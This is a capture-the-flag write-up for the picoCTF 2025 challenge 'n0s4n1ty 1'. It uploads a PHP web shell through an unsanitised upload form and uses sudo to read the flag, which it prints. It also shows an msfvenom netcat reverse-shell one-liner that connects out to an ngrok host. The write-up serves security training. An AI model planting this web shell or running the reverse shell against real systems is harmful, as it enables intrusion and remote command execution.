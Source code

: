 
# n0s4n1ty 1

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`

# Solucion

```
The file descarga.png has been uploaded Path: uploads/descarga.png

```


```
┌──(root㉿kali)-[/home/…/tmp/picoctf2025/web/n0s4n1ty1]
└─# locate simple-backdoor                           
/usr/share/webshells/php/simple-backdoor.php


┌──(root㉿kali)-[/home/…/tmp/picoctf2025/web/n0s4n1ty1]
└─# cat exp.php            
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

## Forma 1
```
http://standard-pizzas.picoctf.net:55842/uploads/exp.php?cmd=sudo%20cat%20/root/flag.txt

picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

## Forma 2

```


┌──(root㉿kali)-[/home/…/tmp/picoctf2025/web/n0s4n1ty1]
└─# msfvenom -p cmd/unix/reverse_netcat lhost=6.tcp.us-cal-1.ngrok.io lport=11749 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
mkfifo /tmp/gghup; nc 6.tcp.us-cal-1.ngrok.io 11749 0</tmp/gghup | /bin/sh >/tmp/gghup 2>&1; rm /tmp/gghup
                 
```

```

```